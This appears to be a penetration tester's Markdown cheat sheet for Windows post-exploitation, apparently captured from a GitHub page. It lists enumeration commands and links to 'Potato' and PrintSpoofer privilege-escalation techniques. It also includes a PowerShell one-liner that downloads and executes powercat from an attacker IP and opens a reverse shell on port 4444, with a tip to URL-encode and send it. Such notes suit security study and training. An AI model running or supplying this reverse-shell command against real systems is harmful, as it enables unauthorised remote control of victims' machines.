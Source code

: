 ```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes
```
### CHECK IF CMD OR PS
```
git ; (dir 2>&1 *|echo CMD);&<# rem #>echo PowerShell
```
### POWERCAT ONE LINER
```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```
URL ENCODE AND SEND IT

## SEIMPERSONATE EXPLOITS
https://jlajara.gitlab.io/Potatoes_Windows_Privesc
PRINTSPOOFER
### IMPROVING WINDOWS SHELL
You can use -file or -command perhaps to have it run non-interactively or you could also use projects such as [https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1](https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1 "https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1")
### BASIC ENUMERATION

to see the current user  
```
whoami
```
to see the groups current user is in
```
whoami /groups
```
cmd to get a list of all local users
```
Get-LocalUser
```
enumrate the exisitng groups on the current machine 
```
Get-LocalGroup
```
to check the members of a particular group
```
Get-LocalGroupMember <group-name>
```
```
Get-LocalGroupMember Administrators
```
run this cmd for more info abt the system
```
systeminfo
```
